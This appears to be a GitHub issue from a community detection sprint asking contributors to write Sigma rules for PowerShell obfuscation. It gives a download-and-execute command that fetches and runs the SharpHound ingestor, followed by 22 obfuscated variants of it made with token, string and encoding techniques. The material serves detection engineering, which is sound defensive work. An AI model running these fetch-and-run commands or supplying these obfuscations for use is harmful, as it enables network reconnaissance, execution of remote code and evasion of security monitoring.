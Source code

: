 ## Hello, fellow OSCD participant!
This is your guide on how you can help us with soving this issue.

## Tasklist
You can pick up some of the methods of PowerShell command and script obfuscation, provided by the [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) framework from the table below and develop Sigma rules for them. You will need to use [regular expressions](https://github.com/Neo23x0/sigma/wiki/Specification#types) in Sigma rules.

## Original command
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
```

## Invoke-Obfuscation premise
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
```
### Just pick up the Case # you prefer and write a Sigma rule for it. When you're done, create a Pull Request to OSCD Sigma branch and specify this issue's number and the number of the case you solved (*e.g., "Develop Sigma rules for Invoke-Obfuscation #578 Case #1"*)

### TOKEN OBFUSCATION
| Case # | Option #1 | Option #2 | Option #3 | Result |
| :---: | :---: | :---: | :---: | --- |
| 1 | TOKEN | TOKEN\STRING | TOKEN\STRING\1 | Invoke-Expression (New-Object Net.WebClient).DownloadString(('ht'+'tp'+'s://raw.gith'+'ubus'+'e'+'rcont'+'ent.com/BloodHo'+'und'+'A'+'D'+'/B'+'loo'+'dHo'+'un'+'d/a7'+'e'+'a5'+'36'+'387'+'0d92'+'5bc31'+'d'+'3'+'a441a361f38b0a'+'add0b'+'/Inge'+'s'+'tors/'+'Shar'+'pHou'+'n'+'d'+'.ps'+'1')); Invoke-BloodHound 
| 2 | TOKEN | TOKEN\STRING | TOKEN\STRING\1 | Invoke-Expression (New-Object Net.WebClient).DownloadString(("{16}{2}{17}{26}{10}{0}{3}{19}{7}{9}{6}{5}{8}{20}{23}{4}{18}{12}{24}{22}{11}{1}{25}{21}{13}{15}{14}"-f 'ntent.com/Blo','s/','/','o','441','ea5363870','nd/a7','ood','d92','Hou','.githubuserco','Ingestor','38b','und.p','1','s','https:','/r','a361f','dHoundAD/Bl','5bc3','o','aadd0b/','1d3a','0','SharpH','aw')); Invoke-BloodHound 
| 3 | TOKEN | TOKEN\COMMAND | TOKEN\COMMAND\1 | i`N`VOKe-E`xpRe`S`SIOn (new-`obJE`cT Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); InVoKe-b`l`OOdH`o`U`ND 
| 4 | TOKEN | TOKEN\COMMAND | TOKEN\COMMAND\2 | .('Invoke-E'+'xpr'+'es'+'s'+'i'+'on') (&('New-Obj'+'e'+'c'+'t') Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); .('Invo'+'ke-B'+'loodHoun'+'d') 
| 5 | TOKEN | TOKEN\COMMAND | TOKEN\COMMAND\3 | .("{1}{0}{2}{3}"-f 'oke','Inv','-','Expression') (&("{2}{3}{0}{1}" -f 'jec','t','N','ew-Ob') Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); &("{3}{1}{0}{2}"-f 'd','loo','Hound','Invoke-B') 
| 6 | TOKEN | TOKEN\ARGUMENT | TOKEN\ARGUMENT\1 | Invoke-Expression (New-Object net.weBclIEnt).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound 
| 7 | TOKEN | TOKEN\ARGUMENT | TOKEN\ARGUMENT\2 | Invoke-Expression (New-Object Net`.W`eBcL`ie`NT).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 8 | TOKEN | TOKEN\ARGUMENT | TOKEN\ARGUMENT\3 | Invoke-Expression (New-Object ('Net'+'.W'+'ebClie'+'nt')).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 9 | TOKEN | TOKEN\ARGUMENT | TOKEN\ARGUMENT\4 | Invoke-Expression (New-Object ("{2}{3}{1}{0}"-f'ent','ebCli','Net.','W')).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound 
| 10 | TOKEN | TOKEN\MEMBER | TOKEN\MEMBER\1 | Invoke-Expression (New-Object Net.WebClient).DOwNlOadsTriNg('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 11 | TOKEN | TOKEN\MEMBER | TOKEN\MEMBER\2 | Invoke-Expression (New-Object Net.WebClient)."Dow`NL`oaDST`R`ING"('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 12 | TOKEN | TOKEN\MEMBER | TOKEN\MEMBER\3 | Invoke-Expression (New-Object Net.WebClient).('Dow'+'nloadStrin'+'g').Invoke('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 13 | TOKEN | TOKEN\MEMBER | TOKEN\MEMBER\4 | Invoke-Expression (New-Object Net.WebClient).("{3}{2}{1}{0}" -f'g','nloadStrin','ow','D').Invoke('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 14 | TOKEN | TOKEN\WHITESPACE | TOKEN\WHITESPACE\1 | Invoke-Expression (  New-Object Net.WebClient ).DownloadString(  'https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1') ;   Invoke-BloodHound
| 15 | TOKEN | TOKEN\ALL | TOKEN\ALL\1 | &("{4}{2}{1}{0}{5}{3}"-f'-Expres','oke','v','on','In','si') (.("{0}{3}{1}{2}"-f'New-O','j','ect','b') ("{1}{0}{4}{2}{3}"-f 'e','N','Cli','ent','t.Web')).("{0}{2}{1}" -f'D','loadString','own').Invoke(("{12}{0}{7}{14}{17}{1}{16}{6}{5}{15}{8}{10}{3}{18}{11}{2}{4}{13}{19}{20}{9}" -f'aw.g','erconten','1d3a44','dHound/a7','1a36','Bloo','.com/','ith','Ho','estors/SharpHound.ps1','undAD/Bloo','25bc3','https://r','1f38b0','ubu','d','t','s','ea5363870d9','aadd0b','/Ing')); &("{1}{4}{2}{3}{5}{0}" -f 'Hound','Inv','lo','o','oke-B','d')

### STRING OBFUSCATION
| Case # | Option #1 | Option #2 | Option #3 | Result |
| :---: | :---: | :---: | :---: | --- |
| 16 | STRING | STRING\1 | - | &( ([stRING]$VeRBoSePrEfErencE)[1,3]+'x'-Join'')((('Invok'+'e-E'+'xpress'+'i'+'on'+' ('+'N'+'ew-Ob'+'jec'+'t Net.'+'WebClien'+'t).D'+'ownloa'+'dString'+'('+'{0}https://raw.githu'+'b'+'u'+'se'+'rcont'+'e'+'nt.co'+'m/BloodHoundA'+'D/BloodHound/a'+'7ea'+'53'+'6'+'3'+'870d925'+'bc31d3a441a'+'361f38b0'+'aadd0b/Ing'+'estor'+'s/SharpHound.ps1{0}); I'+'n'+'vo'+'ke'+'-'+'BloodHou'+'n'+'d')-F [ChaR]39) ) 
| 17 | STRING | STRING\2 | - |  (("{5}{38}{43}{10}{47}{49}{13}{36}{40}{6}{53}{19}{14}{33}{22}{23}{0}{39}{7}{25}{11}{35}{20}{8}{21}{34}{41}{44}{28}{26}{9}{27}{18}{55}{4}{3}{45}{1}{16}{37}{42}{50}{32}{30}{12}{31}{56}{46}{24}{17}{15}{52}{29}{51}{2}{48}{54}" -f 'w.git','c31','voke','d','0','Invo','Client).Downl','bu','o','d','ion (New-Objec','rc','Inges','et.','in','ps','d3a441a','und.','7ea5','tr','tent.c','m/','VFhttps:','//ra','Ho','se','un','/a','loodHo','F); ','b/','t','0aadd0','g(G','Blo','on','We','361','ke','hu','b','odHo','f3','-Express','undAD/B','925b','p','t ','-B','N','8b','In','1GV','oadS','loodHound','36387','ors/Shar')).RepLAcE(([CHar]71+[CHar]86+[CHar]70),[STRiNG][CHar]39)|IEx
| 18 | STRING | STRING\2 | - | SET  ("9"+"sca"+"Vi") (  [CHaR[ ] ]" ))93]RaHC[]GNirTs[,'ocD'(ecaLPEr.)'dnuo'+'HdoolB'+'-ekovn'+'I'+' '+';)ocD1sp.dnuoHpra'+'hS/srotsegnI/b0'+'d'+'daa0b83f163'+'a144a3d13cb529d0'+'783635ae7a/dnuoHdoolB/DAdnuoH'+'do'+'olB/mo'+'c.tnet'+'nocre'+'s'+'ub'+'u'+'hti'+'g.war//:sptt'+'hoc'+'D(gnirt'+'S'+'da'+'ol'+'nwoD.)t'+'neilC'+'be'+'W.te'+'N tcej'+'bO-weN'+'( noi'+'sserp'+'xE-ekovnI'(( xEI"  ); [ArraY]::REVErSe((GEt-VARIAble ("9"+"sCA"+"vI")  -va ));. ( ([strInG]$VerboSepreFERENcE)[1,3]+'x'-joIn'')([STrING]::jOIn( '', (GEt-VARIAble ("9"+"sCA"+"vI")  -va )) ) 

### ENCODING OBFUSCATION
| Case # | Option #1 | Option #2 | Option #3 | Result |
| :---: | :---: | :---: | :---: | --- |
| 19 | ENCODING | ENCODING\1 | - |  "$( SET-ItEM  'VarIAble:OFs' '') " +[STrING]( (73 ,110, 118, 111, 107 ,101, 45 ,69,120,112,114 , 101,115, 115 , 105, 111 , 110, 32, 40,78 , 101,119 ,45,79,98 ,106 , 101,99, 116 , 32, 78 , 101, 116 , 46, 87, 101, 98 , 67 , 108 , 105,101 , 110,116 , 41 ,46, 68,111, 119 , 110,108,111 ,97 ,100,83 ,116 ,114 ,105, 110 ,103 ,40, 39 , 104 , 116, 116 ,112 ,115 ,58, 47 ,47,114,97 , 119, 46 ,103,105 , 116,104 , 117, 98, 117,115,101,114 ,99 , 111, 110,116 ,101 , 110 ,116, 46 , 99, 111,109,47, 66, 108, 111,111,100 , 72 , 111, 117,110 ,100, 65, 68, 47,66,108, 111 , 111, 100, 72,111 , 117, 110,100 , 47,97, 55 , 101 ,97,53,51, 54 , 51, 56, 55 , 48 ,100,57 ,50 , 53, 98 ,99, 51,49, 100, 51 , 97, 52 , 52,49 ,97, 51, 54 , 49 ,102, 51,56 , 98,48,97 , 97,100,100 , 48,98,47,73 ,110 ,103, 101, 115, 116,111, 114 ,115 , 47 ,83, 104 , 97 ,114 , 112 ,72, 111,117,110 , 100 , 46,112 , 115,49 , 39,41,59, 32, 73, 110 , 118, 111,107 ,101, 45,66, 108, 111 ,111, 100 ,72 , 111,117 , 110 ,100 )| fOrEach { ([ChaR] [inT]$_)})+" $(sEt-iteM 'vAriaBLe:ofs' ' ' ) " |.( $sHElliD[1]+$Shellid[13]+'X')
| 20 | ENCODING | ENCODING\2 | - | & ((gV '*MDr*').nAME[3,11,2]-JOIN'') (" $( SET  'ofs' '') " + [stRIng]((49 ,'6e' , 76,'6f', '6b' , 65 ,'2d' , 45,78,70, 72 , 65,73 , 73 , 69, '6f', '6e' , 20, 28,'4e',65 , 77,'2d','4f', 62, '6a' ,65, 63 ,74, 20 , '4e' , 65, 74 , '2e' , 57, 65, 62 , 43,'6c', 69,65,'6e' ,74,29,'2e' ,44, '6f', 77, '6e','6c' , '6f',61,64, 53 ,74 ,72 ,69,'6e' ,67 , 28 , 27,68 , 74, 74 ,70,73 ,'3a' ,'2f' ,'2f', 72 , 61, 77 , '2e' , 67 ,69,74 ,68, 75 ,62, 75,73, 65, 72, 63 , '6f' ,'6e', 74,65,'6e',74,'2e',63 ,'6f' , '6d' , '2f' , 42 ,'6c','6f' , '6f',64, 48 , '6f' ,75,'6e' , 64 , 41, 44 , '2f',42,'6c' , '6f', '6f' , 64 ,48,'6f', 75 ,'6e',64 , '2f', 61 , 37,65, 61, 35, 33, 36 , 33, 38,37,30 , 64, 39, 32, 35 , 62,63, 33,31 , 64,33 , 61, 34, 34,31 ,61,33,36 , 31, 66,33, 38, 62 , 30 ,61 , 61 ,64,64, 30 , 62, '2f' ,49,'6e' , 67,65 ,73, 74,'6f' , 72 , 73,'2f',53,68,61 , 72, 70 , 48 , '6f', 75, '6e', 64 ,'2e' , 70 , 73 , 31,27 , 29,'3b', 20, 49,'6e' ,76, '6f', '6b' ,65 , '2d' ,42, '6c' ,'6f' , '6f' ,64,48, '6f', 75 , '6e' ,64 )| FOrEacH-OBJEct { ([chaR] ( [COnvERT]::TOInt16(([sTRiNg]$_) ,16)))}) +"$( sv  'oFS' ' ')" )
| 21 | ENCODING | ENCODING\3 | - |  " $(Set  'OFS' '') " + [STrInG]( '111F156b166Z157P153_145U55>105>170U160U162l145F163>163U151>157F156b40Z50&116Z145>167F55Z117F142Z152U145b143w164Z40_116w145b164w56_127U145w142_103&154Z151l145&156b164U51U56l104U157P167Z156>154_157_141F144l123l164P162P151P156U147w50l47l150Z164P164b160U163b72l57P57>162P141&167l56Z147_151l164_150b165b142&165U163b145P162Z143w157b156Z164>145Z156F164w56&143Z157F155_57>102_154_157Z157w144F110&157>165_156U144>101F104b57>102_154w157&157>144_110w157U165F156l144l57l141U67Z145F141U65_63_66b63b70w67U60>144b71U62Z65P142P143>63w61l144Z63w141U64Z64l61_141Z63P66&61b146Z63b70P142Z60l141l141>144b144&60U142P57U111l156l147_145U163b164_157&162F163l57l123b150b141Z162_160&110_157l165Z156l144>56&160_163&61U47l51P73_40P111P156&166F157l153_145U55U102F154P157Z157>144l110U157F165b156P144' -sPlIt 'P'-sPlit 'l' -SpLit'&' -SPLit 'b'-Split '>'-SPLIt'F' -SpLIt 'Z' -SpLit'w'-split '_'-SPlit'U' |% { ([COnveRt]::TOINt16(($_.tOStRiNG()) ,8 )-as [ChAr])} )+"$(Set-vArIablE 'Ofs' ' ' ) "|.( $VeRbOSEpREfeRencE.TosTRing()[1,3]+'X'-Join'')
| 22 | ENCODING | ENCODING\4 | - | .( $psHOmE[21]+$psHoME[34]+'x') (" $( Sv 'OfS' '') "+[striNG]( '1001001}1101110D1110110!1101111Y1101011-1100101Y101101<1000101-1111000<1110000Y1110010I1100101I1110011Y1110011I1101001!1101111-1101110A100000!101000t1001110A1100101D1110111!101101A1001111<1100010}1101010D1100101<1100011t1110100D100000}1001110-1100101}1110100A101110}1010111Y1100101!1100010<1000011I1101100Y1101001-1100101}1101110t1110100}101001<101110}1000100<1101111-1110111I1101110t1101100<1101111H1100001I1100100}1010011}1110100Y1110010H1101001<1101110<1100111<101000<100111Y1101000}1110100Y1110100Y1110000t1110011H111010H101111t101111Y1110010H1100001}1110111D101110t1100111H1101001I1110100-1101000t1110101D1100010H1110101!1110011t1100101Y1110010I1100011D1101111!1101110!1110100}1100101I1101110I1110100!101110-1100011<1101111!1101101}101111!1000010}1101100A1101111!1101111H1100100I1001000Y1101111H1110101<1101110!1100100}1000001-1000100}101111A1000010}1101100t1101111<1101111-1100100}1001000I1101111I1110101I1101110H1100100Y101111-1100001}110111I1100101I1100001I110101A110011<110110H110011}111000H110111I110000-1100100Y111001-110010I110101!1100010Y1100011t110011!110001!1100100}110011<1100001!110100}110100<110001-1100001H110011A110110I110001<1100110I110011I111000-1100010D110000I1100001}1100001Y1100100!1100100D110000D1100010D101111I1001001A1101110}1100111!1100101-1110011D1110100I1101111I1110010-1110011Y101111<1010011D1101000Y1100001<1110010}1110000Y1001000Y1101111!1110101D1101110H1100100H101110A1110000}1110011Y110001D100111Y101001Y111011I100000-1001001A1101110Y1110110A1101111!1101011H1100101!101101I1000010!1101100-1101111D1101111D1100100I1001000!1101111A1110101H1101110I1100100'.splIt('A!HIt<-}YD')|foreaCH-obJECt {( [CONveRT]::tOInT16( ( $_.toSTriNG()) , 2) -as [CHar])})+"$(seT-ItEM 'vAriAbLe:ofs' ' ' )") 
